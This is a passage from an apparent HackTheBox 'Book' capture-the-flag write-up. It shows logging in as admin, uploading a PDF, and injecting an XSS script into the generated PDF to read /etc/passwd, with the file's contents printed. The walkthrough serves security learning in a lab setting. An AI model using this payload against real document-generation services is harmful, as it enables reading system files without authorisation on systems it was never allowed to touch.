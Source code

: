 We have successfuly override the previous admin account Let's try to login via `/admin/index.php`

The login to the admin site is successful.

Then start to try the Collections module, upload a pdf file on the user side, the content is arbitrary

![Book](/assets/img/post/hackthebox/book/1.png)

Download Collections PDF in the admin panel

![Book](/assets/img/post/hackthebox/book/2.png)

You can see the pdf file just uploaded

![Book](/assets/img/post/hackthebox/book/3.png)

# Initial Foothold:~$


Well the data we provide can be presented in pdf, so we can extract local files through XSS. Here is as article on it by Noob Ninja [Here](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
![Book](/assets/img/post/hackthebox/book/4.png)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
.............
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
Our payload executed successfully and we were able to get `/etc/passwd`
